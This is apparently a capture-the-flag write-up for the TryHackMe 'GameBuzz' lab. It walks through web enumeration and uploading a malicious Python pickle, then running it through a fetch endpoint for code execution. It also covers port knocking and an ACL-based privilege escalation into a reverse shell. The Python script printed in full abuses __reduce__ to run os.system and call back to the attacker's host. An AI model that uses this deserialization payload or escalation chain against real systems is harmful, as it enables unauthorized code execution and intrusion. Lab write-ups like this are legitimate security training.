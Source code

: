 <h3> GameBuzz TryHackMe </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b8867ef-56a0-43e5-860d-f2453459c873)

Going over to the web server shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/72c13526-255a-4bc4-ae0b-8d729902260d)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/358c80bb-9bcd-49ff-9d4d-d22e05cf18b7)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/57414644-72f7-45a4-8ba3-b3ba4eb2e751)

Noticing the email *admin@incognito.com* we can deduct that the domain name is *incognito.com*

I'll add that to my */etc/hosts* file

Now poking around this web app i saw the *Game Rating* function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/35f31582-8204-4839-a88f-ee25889b5252)

When you click it and then click game 1 with a proxy on this is what I got
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/73392813-ef46-4ce4-98e4-add3c1cfbfc9)

```json
{"object":"/var/upload/games/object.pkl"}
```

We can see that it's loading the object pickled file 🤔

Let's keep this in mind!

Now for more enumeration since we have the domain lets fuzz for sub domains 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a6783ee6-458f-4c0c-a655-c34d945fe539)

I got *dev* so i'll update my */etc/hosts* file with the new subdomain *dev.incognito.com*

Going over to the newly founded subdomain shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/406ca395-c76f-41f1-b11a-b2948a14d85a)

Checking */robots.txt* shows */secret*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b6d8c8c-0285-4aec-bd2b-13f7bc04f112)

But after navigating to */secret* gives 403 forbidden
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/add9bbf8-6807-4155-ae7d-659b2488e247)

So I fuzzed for files there and got */upload*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c1966332-64c8-4382-8ed7-75c9343d5055)

Moving there shows an upload form 

Now this is good cause remember from the main domain we can call any pickled file and since we are opportuned to upload any file lets upload a pickle file

I made a script to make icmp callback to my host

```python
#!/usr/bin/python3
# Author: Hack.You
import os
import pickle

class Shell(object):
    def __reduce__(self):
        cmd = 'ping -c 5 10.2.42.156'
        return (os.system, (cmd,))

pickledData = pickle.dumps(Shell())
with open('payload.pkl', 'wb') as f:
    f.write(pickledData)

```

Running it creates the pickle file 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3d67b081-9fbf-44dd-92bf-e90fb55d9253)

Now let upload the serialized payload
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/edb33e1e-ad19-4e34-b60f-101383fcac10)

I already setup *tcpdump* listening for icmp connection 

```bash
sudo tcpdump -i tun0 icmp
```

Since the file is already uploaded we can call it via the fetch endpoint on the main domain
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9419975b-ed4c-4d53-9eb0-cec23cc454d6)

```json
{"object":"/var/upload/payload.pkl"}
```

Back on tcpdump we get a hit 😄
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8a0bdbe0-d147-4350-a9f5-de65e9ad368f)

Now lets get shell. Here's my payload [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/GameBuzz/pickle.py)

After running it and uploading it then using the fetch endpoint to load the pickle data I got shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7ee6d51c-1040-4c2d-be89-184992a40d11)

Let do some privilege escalation 

Running linpeas shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f9e7b38c-e18f-46e5-afd3-12d59976714e)

Viewing the file gives the password for user dev1 as *dc647eb65e6711e155375218212b3964*

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b23adc48-ccec-49a1-b591-44f805c2e430)

But we can't switch to the user from the box so we need to login to ssh

But no ssh port is open

From the hint we are to do port knocking for we to get access to the ssh service

Looking at the knock config file shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8f9969a0-aaa0-4b25-ad6e-de2de82580c6)

This means we're to knock the followng ports *[5020,6120,7340]* for ssh to be open

Luckily there's an open source tool on kali that can easily do this for us
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a42f9b32-9a61-4c67-9722-ee7a508a6f37)

Now that ssh is open let us login as dev1
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e766b550-f2ef-471e-b284-70fee8cfba5a)

Checking *sudo -l* shows we can run as *root* on */etc/init.d/knockd*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4cad41e1-c3db-484b-bdd2-ec0e5dd73d8e)

But we don't have write access over the file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a4915ecf-851b-4452-ba1e-3b763f9afaa3)

So i ran linpeas again and got this

It shows this file has ACL perm set on it

And to confirm it we can check it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fee6e2a0-0a09-42fb-9e5d-0cf821d92d16)

The *+* sign at the end of the perm signifies ACl 

With ACL set on we can change the permission on the file

So lets edit it to get a reverse shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4fa768fb-90a4-47b1-af59-8fefc4958d25)

Now lets restart the service
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8e541218-4b6a-4a7e-bdc7-b7cc82a9047d)

With this set we now need to stop the knock service and start it back then port knock the ports
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4ae77013-e51b-45fb-b299-1c9875140f9c)

And we're done 👻
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ed17bd46-1cda-46cf-801b-254300e3d2cb)


